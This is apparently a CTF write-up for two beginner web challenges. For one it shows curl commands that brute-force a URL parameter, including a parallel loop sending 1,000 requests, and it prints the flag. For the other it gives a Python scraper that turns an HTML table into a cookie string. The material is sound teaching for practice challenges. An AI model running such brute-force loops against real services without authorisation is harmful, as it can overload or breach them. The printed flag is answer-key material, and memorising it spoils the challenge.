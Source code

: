 ### Problem

Get the flag!

Relevant links: [curling-1](https://cararra-ctf-files.herokuapp.com/r3/curling-1)

### Writeup

This problem is fairly straightforward (we just want to automate guessing numbers). However, we could either spend time writing a python script or we can use a simple BASH command: 

```bash
curl http://cararra-ctf-files.herokuapp.com/r3/curling-1?number=[1-1000] -s | grep cararraCTF
```

Although this does get the answer, it takes a very long time to run since it sends the requests sequentially. We can get an almost 1000x speedup just by sending the requests asynchronously using the following command:

```bash
for i in {1..1000}; do curl http://cararra-ctf-files.herokuapp.com/r3/curling-1?number=$i -s & done | grep cararraCTF
```

Running the command, we get the flag is `cararraCTF{curl1nG_1s_4_c00l_spOrt}`.

## curling-2

Web Exploitation (125 points)

### Problem

Bob is very specific with the cookies he likes and will only send you the flag if you give him the right number of each type of cookie.

Relevant links: [curling-2](https://cararra-ctf-files.herokuapp.com/r3/curling-2)

### Writeup

This one is fairly straightforward, but it requires knowing how to parse HTML (or you can copy and paste then parse your text file).

We can retrieve the cookies and their values using a basic webscraper in Python:

```python
import requests
import random
from bs4 import BeautifulSoup

URL = 'http://localhost:3001/r3/curling-2'
page = requests.get(URL)

soup = BeautifulSoup(page.content, 'html.parser')
table = soup.table
table_body = table.find('tbody')
rows = table_body.find_all('tr')

cookies = []
for row in rows:
    cols = row.find_all('td')
    for i in range(len(cols)):
        cols[i] = cols[i].text.strip()
    cookies.append('' + cols[0] + '=' + cols[3] + ';')

print("".join(cookies))
```
